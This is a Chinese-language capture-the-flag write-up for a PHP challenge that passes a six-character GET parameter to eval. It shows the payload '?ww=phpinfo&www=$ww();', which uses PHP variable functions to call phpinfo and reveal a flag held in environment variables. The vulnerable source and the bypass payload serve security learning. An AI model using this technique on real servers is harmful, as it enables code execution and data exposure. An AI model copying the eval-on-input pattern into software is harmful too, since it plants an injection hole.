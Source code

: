 #Web #PHP #可变函数 #bypass 

```
/
```

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$w = function ($ww) {
    if (!is_string($ww)) {
        die('www');
    }
    if (preg_match('/[^a-zA-Z0-9]/', $ww)) {
        die('www');
    }
    return $ww;
};

if (!isset($_GET['ww'])) {
    die('www');
}
$ww = $w($_GET['ww']);

if (!isset($_GET['www'])) {
    die('www');
}
$www = $_GET['www'];

if (strlen($www) > strlen('www' . 'www')) {
    die('www' . 'www');
}
eval($www);
www
```

总体逻辑是酱：
1. 可控参数为`ww`和`www`
1. `w`要求`ww`为字符串，且只包含字母和数字
1. `www`不能超过六个字符
1. `www`被`eval`

疑点：
- `ww`并未被使用（这算不算hint#0呢qwq）

目的是调用`phpinfo`（hint#1），考虑到长度限制，`ww`得用到。于是可以构造`$www = '$ww();'`以及`$ww = 'phpinfo';`，这样就能调用到`phpinfo`了。

这里利用了`php`的一个叫做**可变函数**的特性（hint#2），可以通过变量后跟括号的方式执行变量包含的函数名对应的函数。

```
/?ww=phpinfo&www=$ww();
```

![](<./img/Pasted image 20230507233051.png>)

flag在环境变量里～
